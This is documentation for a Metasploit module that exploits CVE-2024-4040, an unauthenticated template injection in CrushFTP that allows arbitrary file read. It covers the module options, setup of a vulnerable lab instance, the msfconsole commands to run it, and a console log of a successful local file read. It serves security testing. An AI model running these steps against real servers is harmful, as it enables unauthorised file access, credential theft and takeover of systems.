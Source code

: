 ## Vulnerable Application
This module leverages an unauthenticated server-side template injection vulnerability in CrushFTP < 10.7.1 and
< 11.1.0 (as well as legacy 9.x versions). Attackers can submit template injection payloads to the web API without
authentication. When attacker payloads are reflected in the server's responses, the payloads are evaluated. The
primary impact of the injection is arbitrary file read as root, which can result in authentication bypass, remote
code execution, and NetNTLMv2 theft (when the host OS is Windows and SMB egress traffic is permitted).
More information can be found in the [Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/20oYjlmfXa/cve-2024-4040/rapid7-analysis).

## Options

### INJECTINTO
The unauthenticated API function to use for template injection (default: zip).

### STORE_LOOT
Whether the read file's contents should be outputted to the console or stored as loot (default: false).

### TARGETFILE
The target file to read (default: users/MainUsers/groups.XML). This can be a full path, a relative path, or a network share path (if 
firewalls permit). Files containing binary data may not be read accurately. Though file paths for Windows targets can contain `:` 
characters, like `C:\Windows\win.ini`, this will result in payloads not being fully redacted from CrushFTP logs.

## Testing
To set up a test environment:
1. Download an affected version of CrushFTP [here](https://github.com/the-emmons/CVE-2023-43177/releases/download/crushftp_software/CrushFTP10.zip) (SHA256: adc3619937ebb57b3a95c50f78fda5c388d072c0d34a317b9ed64a31127a6d3f).
2. Configure `CRUSH_DIR` in `crushftp_init.sh` to point to the correct install directory.
3. Execute `java -jar CrushFTP.jar` to show a local client GUI interface that can be used to set up an admin account.
4. Execute `sudo crushftp_init.sh start` to launch the software on Linux or Mac. If on Windows, run `CrushFTP.exe` as an administrator.
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use auxiliary/gather/crushftp_fileread_cve_2024_4040`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set TARGETFILE <TARGET_FILE_TO_READ>`
6. `set STORE_LOOT false` if you want to display file on the console instead of storing it as loot.
7. `run`

## Scenarios
### CrushFTP on Windows, Linux, or Mac
```
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > show options 

Module options (auxiliary/gather/crushftp_fileread_cve_2024_4040):

   Name        Current Setting             Required  Description
   ----        ---------------             --------  -----------
   INJECTINTO  zip                         yes       The CrushFTP API function to inject into (Accepted: zip, exists)
   Proxies                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasp
                                                     loit.html
   RPORT       8080                        yes       The target port (TCP)
   SSL         false                       no        Negotiate SSL/TLS for outgoing connections
   STORE_LOOT  false                       yes       Store the target file as loot
   TARGETFILE  users/MainUsers/groups.XML  yes       The target file to read. This can be a full path, a relative path, or a network share path (i
                                                     f firewalls permit). Files containing binary data may not be read accurately
   TARGETURI   /                           yes       The URI path to CrushFTP
   VHOST                                   no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > check
[+] 127.0.0.1:8080 - The target is vulnerable. Server-side template injection successful!
msf6 auxiliary(gather/crushftp_fileread_cve_2024_4040) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Server-side template injection successful!
[*] Fetching anonymous session cookie...
[*] Using template injection to read file: users/MainUsers/groups.XML
[+] File read succeeded! 
<?xml version="1.0" encoding="UTF-8"?>
<groups type="properties"></groups>



[*] Auxiliary module execution completed
```
